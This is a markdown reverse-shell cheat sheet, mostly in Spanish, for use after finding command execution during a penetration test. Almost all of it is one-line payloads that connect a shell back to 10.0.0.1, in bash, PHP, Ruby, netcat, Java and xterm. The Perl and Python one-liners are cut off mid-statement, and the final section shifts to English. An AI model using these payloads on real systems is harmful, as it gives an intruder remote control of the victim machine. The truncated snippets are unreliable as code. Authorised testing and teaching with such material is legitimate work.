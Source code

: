 ```yaml
---
title: Reverse Shell Cheat Sheet
---
```

Si tienes la suerte de encontrar una vulnerabilidad de ejecución de comandos durante una prueba de penetración, muy pronto después probablemente querrás un shell interactivo.

Si no es posible añadir una nueva cuenta / clave SSH / archivo .rhosts y simplemente iniciar sesión, es probable que tu siguiente paso sea lanzar una shell inversa o vincular una shell a un puerto TCP.  Esta página se ocupa de lo primero.

Tus opciones para crear una shell inversa están limitadas por los lenguajes de scripting instalados en el sistema de destino - aunque probablemente también podrías subir un programa binario si estás adecuadamente preparado.

Los ejemplos mostrados están adaptados a sistemas tipo Unix.  Algunos de los ejemplos siguientes también deberían funcionar en Windows si sustituyes "/bin/sh -i" por "cmd.exe".

El objetivo de cada uno de los métodos que se muestran a continuación es que se puedan copiar y pegar en una sola línea.  Como tales son líneas bastante cortas, pero no muy legibles.

### bash
Algunas versiones de bash pueden enviarte un shell inverso (esto fue probado en Ubuntu 10.10):

``` bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
``` 
------
### PERL
Aquí tienes una versión más corta y sin funciones del perl-reverse-shell:
``` perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in
```
---------
### Python
Esto fue probado en Linux / Python 2.7:
``` python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234))
```
-----
### PHP
Este código asume que la conexión TCP utiliza el descriptor de fichero 3.  Esto funcionó en mi sistema de prueba.  Si no funciona, prueba con 4, 5, 6...

``` php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
Si desea un archivo .php para cargar, vea el más funcional y robusto [php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell). 

---------
### Ruby
``` ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
--------
### Netcat
Netcat rara vez está presente en los sistemas de producción e incluso si lo está hay varias versiones de netcat, algunas de las cuales no soportan la opción -e.
```bash
nc -e /bin/sh 10.0.0.1 1234
```


### Java
```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```


[Untested submission from anonymous reader]

### xterm

One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```xterm
xterm -display 10.0.0.1:1
```

- Tags: #Reverse-Shells #netcat #python #java #php #bash #perl

